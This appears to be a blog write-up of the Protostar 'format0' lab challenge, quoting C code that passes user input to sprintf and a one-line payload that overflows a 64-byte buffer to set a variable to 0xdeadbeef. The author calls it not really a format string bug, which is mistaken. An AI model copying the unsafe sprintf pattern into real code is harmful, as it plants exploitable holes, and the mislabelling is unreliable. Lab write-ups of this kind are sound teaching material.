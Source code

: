 ```yaml
---
layout: post
title: "protostar format00"
tags: [resources]
comments: false
---
```


We are given a source code for this challenge.

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln(char *string)
{
  volatile int target;
  char buffer[64];

  target = 0;

  sprintf(buffer, string);
  
  if(target == 0xdeadbeef) {
      printf("you have hit the target correctly :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```

I don't really think this is a format string vulnerability but it writes our argument in buffer without a specific size so we can overflow buffer with "\xef\xbe\xad\xde"

```
user@protostar:/opt/protostar/bin$ ./format0 `python -c 'print "A"*64+"\xef\xbe\xad\xde"'`
you have hit the target correctly :)
```

